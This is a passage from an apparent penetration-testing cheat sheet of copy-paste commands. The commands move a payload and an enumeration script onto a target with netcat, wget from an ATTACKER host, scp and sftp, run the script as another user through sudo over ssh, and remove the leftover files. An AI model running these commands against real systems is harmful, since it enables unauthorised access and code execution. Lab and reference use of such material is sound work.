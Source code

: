 - Netcat ad-hoc (varies by nc):
  - On attacker (listen): `nc -l -p 4444 < payload`
  - On target (pull): `nc ATTACKER 4444 > /tmp/payload`
  - Alternate flags: `nc -l 4444 < payload` or `ncat -l 4444 < payload`

- Agent-forwarding pattern:
  - From attacker to intermediate: `ssh -A user@intermediate`
  - From intermediate to target: `scp -P 22 attacker@target:/path /tmp/` (using forwarded key)

### Remote file-write via SSH when scp not possible (remote-cat pattern)
- `ssh -p PORT -t user@host 'sudo -u other -i bash -c "cat > /tmp/os_info.sh && chmod +x /tmp/os_info.sh && /tmp/os_info.sh -v --sign you@host"' < ./os_info.sh`

### Streaming script over ssh to run as another user
- `cat ./os_info.sh | ssh -t user1@TARGET 'sudo -u user2 -i sh -s -- -v --sign you@host' > ~/local_capture.log 2>&1`

### scp with custom port (correct usage)
- `scp -P 31212 ./os_info.sh user1@94.237.49.114:/tmp/os_info.sh`

### sftp interactive put
- `sftp -oPort=31212 user1@94.237.49.114`
  - within sftp: `put ./os_info.sh /tmp/os_info.sh`

### Cleanup remote artifacts (always verify paths)
- `ssh -p PORT user@host 'sudo -u user2 -i sh -c "rm -f /tmp/os_info.sh /tmp/os_info_*.log /home/user2/os_info_*.log"'`

---

## Quick useful one-liners (copy/paste)

- Run os_info.sh remotely as user2 via user1 (interactive sudo via tty):
  - `cat ./os_info.sh | ssh -t user1@TARGET 'sudo -u user2 -i sh -s -- -v --sign you@host' > ~/os_info_TARGET.log 2>&1`

- Copy script to remote with port:
  - `scp -P 31212 ./os_info.sh user1@TARGET:/tmp/os_info.sh`

- Serve payload from attacker and fetch on target:
  - `python3 -m http.server 8000` (attacker)
  - `wget http://ATTACKER:8000/payload -O /tmp/payload` (target)

- Non-interactive SSH key check:
  - `ssh -o BatchMode=yes -o ConnectTimeout=3 -p 22 attacker@ATTACKER true && echo "key ok" || echo "key fail"`

---

## Notes
- Treat logs and env outputs as sensitive.
- Prefer interactive auth flows (ssh + sudo) for safety; avoid embedding passwords in commands.
- The above commands reflect the exact checks and fallbacks used by the two scripts.
